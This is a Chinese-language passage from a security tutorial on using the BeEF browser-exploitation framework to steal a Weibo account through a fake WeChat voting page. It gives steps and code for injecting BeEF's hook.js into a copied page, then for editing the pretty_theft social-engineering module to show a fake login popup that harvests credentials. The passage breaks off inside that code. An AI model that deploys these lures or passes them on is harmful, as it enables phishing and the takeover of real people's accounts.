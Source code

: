 加载hook页面后，将手机屏幕关闭处于待机状态，BeEF仍然可以执行指令，或许这与手机系统相关，值得以后深入测试。

0x07 利用朋友圈投票社工微博帐号实例
====================

* * *

1、伪造BeEF的hook页面
---------------

**1、寻找模板**

随机找到一个投票的页面，保存为html

```
http://mp.weixin.qq.com/s?__biz=MzA3MTM0NTgyNw==&mid=400240804&idx=1&sn=d87655d4c67a8f39fc84b3cdcb4c1895&scene=1&srcid=1024yDcPJI2to0i3DmiVmj1L&from=groupmessage&isappinstalled=0#rd

```

**2、替换hook页面**

在`use/share/beef-xss/extensions/demos/html`目录下，将上述html文件命名为basic.html并添加以下代码

```
var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hook.js" 
type="text/javascript"><\/script>';
        document.write(commandModuleStr);

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/714bfea145bcc3d83b7f6540bda59cb62a8f2b50.jpg)

![这里写图片描述](http://drops.javaweb.org/uploads/images/d2068ec4447fb38d1c46d423e39df8661daa1b32.jpg)

上线页面已被修改

2、修改BeEFsocial_engineering模块
----------------------------

修改弹出对话框样式

将此文件use/share/beef-xss/modules/social_engineering/pretty_theft/command.js内容 对应部分替换如下：

```
// Facebook floating div
    function facebook() {

        sneakydiv = document.createElement('div');
        sneakydiv.setAttribute('id', 'popup');
        sneakydiv.setAttribute('style', 'position:absolute; top:30%; left:2%; z-index:51; background-

color:ffffff;');
        document.body.appendChild(sneakydiv);

        // Set appearance using styles, maybe cleaner way to do this with CSS block?
        var windowborder = 'style="width:330px;background:white;border:10px #999999 solid;border-

radius:8px"';
        var windowmain = 'style="border:1px #555 solid;"';
        var tbarstyle = 'style="color: rgb(255, 255, 255); background-color: rgb(255, 102, 0);font-size: 

13px;font-family:tahoma,verdana,arial,sans-serif;font-weight: bold;padding: 5px;padding-left:8px;text-align: 

left;height: 18px;"';
```